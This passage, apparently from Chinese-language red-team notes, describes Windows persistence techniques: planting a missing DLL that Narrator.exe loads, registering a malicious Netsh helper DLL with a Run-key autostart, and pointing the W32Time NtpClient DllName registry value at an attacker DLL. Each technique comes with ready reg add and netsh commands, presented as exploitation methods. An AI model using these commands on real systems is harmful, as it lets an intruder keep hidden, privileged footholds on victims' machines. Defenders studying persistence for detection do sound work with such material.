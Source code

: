 #### Narrator 旁白

Microsoft Narrator 是一款适用于 Windows 环境的屏幕阅读应用程序

本地化设置相关的 DLL 丢失 (MSTTSLocEnUS.DLL)，并且可能被滥用来执行任意代码

当“ *Narrator.exe* ”进程启动时，DLL 将被加载到该进程中

```cmd
# 系统语言为中文时，可能不起作用

C:\Windows\System32\Speech\Engines\TTS\MSTTSLocEnUS.DLL
```

### 7. Netsh Helper DLL

Netsh 是一个 Windows 实用程序，管理员可以使用它来执行与系统网络配置相关的任务，并对基于主机的 Windows 防火墙进行修改

Netsh 功能可以通过使用DLL 文件来扩展，需要本地管理员级别的权限，启动时会留下cmd

#### 注册表位置

```cmd
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NetSh
```

#### 利用方法

```cmd
# 添加 DLL
netsh add helper <path to dll>

# 添加自启动注册表
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v netsh /t REG_SZ /d "cmd /c start /b C:\Windows\System32\netsh"
```

### 8. Time Providers

时间提供程序以 DLL 文件的形式实现，该文件位于 System32 文件夹中；**W32Time**服务在 Windows 启动期间启动并加载 w32time.dll

需要管理员级别权限，因为指向时间提供程序 DLL 文件的注册表项存储在 HKEY_LOCAL_MACHINE 中

根据系统是用作 NTP 服务器还是 NTP 客户端，使用以下两个注册表位置

```powershell
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpClient
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer
```

#### 利用原理

```powershell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpClient" /v DllName /t REG_SZ /d "C:\temp\w32time.dll"
```

该服务将在 Windows 启动期间启动，或者通过执行以下命令手动启动
